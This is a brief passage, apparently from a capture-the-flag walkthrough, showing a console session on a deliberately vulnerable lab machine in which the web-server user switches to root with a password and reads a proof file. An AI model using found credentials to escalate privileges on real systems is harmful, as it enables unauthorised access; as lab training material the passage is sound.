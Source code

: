 ```console
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su -
su -
Password: willy26

root@ubuntu-extermely-vulnerable-m4ch1ine:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
```
